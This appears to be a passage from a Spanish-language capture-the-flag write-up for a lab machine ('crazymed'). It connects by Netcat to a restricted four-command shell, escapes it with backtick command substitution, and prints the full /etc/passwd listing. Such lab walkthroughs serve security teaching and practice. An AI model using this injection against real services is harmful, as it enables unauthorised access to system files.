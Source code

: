 `nc 192.168.0.25 4444`

Aplicamos la contraseña por Netcat:

![](/assets/images/crazymed/netcat.png)

Como podemos observar solo tenemos 4 comandos disponibles, mediante los cuales no nos permite hacer nada... ¿ o sí?

La clave está en la **sustitución de comandos.**

![](/assets/images/crazymed/netcat2.png)

De aquí sacamos las siguientes conclusiones:

- Estamos accediendo como un usuario que se llama **brad**
- No sé si es un fallo intencionado o no, pero *who* nos indicaría los usuarios logueados en la máquina
- Sí funciona *whoami* en su defecto, el cual nos indica de nuevo que estamos conectados como **brad**
- No le gusta que juguemos con "$", lo considera un ataque

Ahora vamos a probar a capturar la salida del mismo comando "echo $(cat /etc/passwd)" pero escrito de la otra forma que existe, con acentos graves. 

~~~
System command: echo `cat /etc/passwd`
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:109::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin avahi-autoipd:x:105:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin brad:x:1000:1000:brad,,,:/home/brad:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin memcache:x:107:115:Memcached,,,:/nonexistent:/bin/false
~~~
